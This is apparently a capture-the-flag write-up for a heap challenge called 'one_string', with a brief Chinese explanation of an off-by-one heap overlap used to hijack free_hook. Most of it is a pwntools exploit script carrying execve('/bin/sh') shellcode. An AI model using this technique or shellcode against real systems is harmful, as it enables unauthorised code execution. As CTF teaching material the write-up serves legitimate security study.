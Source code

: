 # one_string

因为有RWX考虑直接写shellcode，然后发现edit之后的size由strlen决定，因此可以与下一个chunk的size位拼接在一起，造成size比chunk大1字节，然后再次edit改下一个chunk的size位造成堆重叠，之后再将下一个chunk中记录note的content的指针改到bss段notelist去，然后就可以得到任意地址写。将free_hook(0x80EB4F0)写成rwx区域已经布置好的shellcode的地址，然后free即可getshell。

> **Warning**:  libc 2.23（ubuntu16.04）

```python
#coding=utf8

from pwn import *

import base64

context.log_level = 'debug'

context.terminal = ['gnome-terminal','-x','bash','-c']

context.binary='./pwn'

r=process('./pwn')

r.recvuntil('Please input:')



ans = ''



def add(length, conetent):

    global ans

    r.sendline('1')

    ans += '1\n'

    r.sendline(str(length))

    ans += str(length)+'\n'

    r.send(conetent)

    ans += conetent



def free(idx):

    global ans

    r.sendline('2')

    ans += '2'+'\n'

    r.sendline(str(idx))

    ans += str(idx)+'\n'



def edit(idx,conetent):

    global ans

    r.sendline('3')

    ans += '3\n'

    r.sendline(str(idx))

    ans += str(idx)+'\n'

    r.send(conetent)

    ans += conetent





add(0x2c,'a'*0x2c)

add(0x2c,'a'*0x2c)

add(0x2c,'a'*0x2c)

add(0x2c,'a'*0x2c)

add(0x2c,'a'*0x2c)

add(0x2c,'a'*0x2c)

add(0x31,'aim'+'\n')

edit(0,'b'*0x2c)

edit(0,'c'*0x2c+'\x41')

edit(2,'d'*0xc+p32(0x11)+p32(0)*3+p32(0x1)+'\n')

free(1)

free(3)

free(4)

free(2)

add(0x3c,'e'*0x2c+p32(0x31)+p32(0x080EBA14)+'\n')#1

add(0x2c,'k'*0x2c)#2

#gdb.attach(r)

shellcode = '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'

add(0x2c,shellcode.ljust(0x24,'\x00')+p32(0x80EB4F0)+'\n')#3

edit(0,p32(0x80eba1c)+'\n')

free(0)

r.sendline('cat flag')
#r.interactive()

ans += 'cat flag\n'

ans = base64.b64encode(ans)

print(ans)
```
